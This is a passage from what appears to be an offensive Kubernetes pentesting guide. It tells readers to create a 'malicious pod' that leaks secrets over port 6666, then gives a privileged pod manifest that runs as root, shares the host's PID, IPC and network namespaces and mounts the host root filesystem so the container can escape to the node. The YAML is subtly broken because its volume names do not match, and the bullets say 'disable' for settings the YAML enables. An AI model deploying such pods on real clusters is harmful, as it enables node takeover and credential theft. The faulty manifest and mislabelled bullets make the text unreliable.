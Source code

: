 In the previous image note how the _bootstrap-signer service is used in_ `serviceAccountname`_._

So just create the malicious pod and expect the secrets in port 6666:

![](<../../../.gitbook/assets/image (464).png>)

### **Pod Create & Escape**

The following definition gives all the privileges a container can have:

* **Privileged access** (disabling protections and setting capabilities)
* **Disable namespaces hostIPC and hostPid** that can help to escalate privileges
* **Disable hostNetwork** namespace, giving access to steal nodes cloud privileges and better access to networks
* **Mount hosts / inside the container**

{% code title="super_privs.yaml" %}
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ubuntu
  labels:
    app: ubuntu
spec:
  # Uncomment and specify a specific node you want to debug
  # nodeName: <insert-node-name-here>
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "3600" # adjust this as needed -- use only as long as you need
    imagePullPolicy: IfNotPresent
    name: ubuntu
    securityContext:
      allowPrivilegeEscalation: true
      privileged: true
      #capabilities:
      #  add: ["NET_ADMIN", "SYS_ADMIN"] # add the capabilities you need https://man7.org/linux/man-pages/man7/capabilities.7.html
      runAsUser: 0 # run as root (or any other user)
    volumeMounts:
    - mountPath: /host
      name: host-volume
  restartPolicy: Never # we want to be intentional about running this pod
  hostIPC: true # Use the host's ipc namespace https://www.man7.org/linux/man-pages/man7/ipc_namespaces.7.html
  hostNetwork: true # Use the host's network namespace https://www.man7.org/linux/man-pages/man7/network_namespaces.7.html
  hostPID: true # Use the host's pid namespace https://man7.org/linux/man-pages/man7/pid_namespaces.7.htmlpe_
  volumes:
  - name: volume
    hostPath:
      path: /
```
{% endcode %}
